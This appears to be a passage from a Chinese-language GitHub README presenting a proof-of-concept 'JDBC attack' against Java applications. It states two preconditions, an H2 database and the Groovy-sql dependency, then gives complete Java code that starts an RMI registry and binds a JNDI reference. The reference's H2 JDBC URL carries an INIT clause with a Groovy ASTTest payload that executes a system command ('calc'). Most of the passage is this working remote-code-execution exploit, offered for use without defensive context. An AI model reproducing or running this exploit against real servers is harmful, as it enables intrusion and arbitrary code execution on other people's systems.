 ![image-20220808130559041](README/image-20220808130559041.png)

###### JDBC attack's H2_Groovy poc

条件

1. 存在h2数据库
2. 存在Groovy-sql依赖

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String groovy = "@groovy.transform.ASTTest(value={" +
            " assert java.lang.Runtime.getRuntime().exec(\"calc\")" +
            "})" +
            "def x";
    String JDBC_URL = "jdbc:h2:mem:dbtest;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}
```

![image-20220808130939351](README/image-20220808130939351.png)
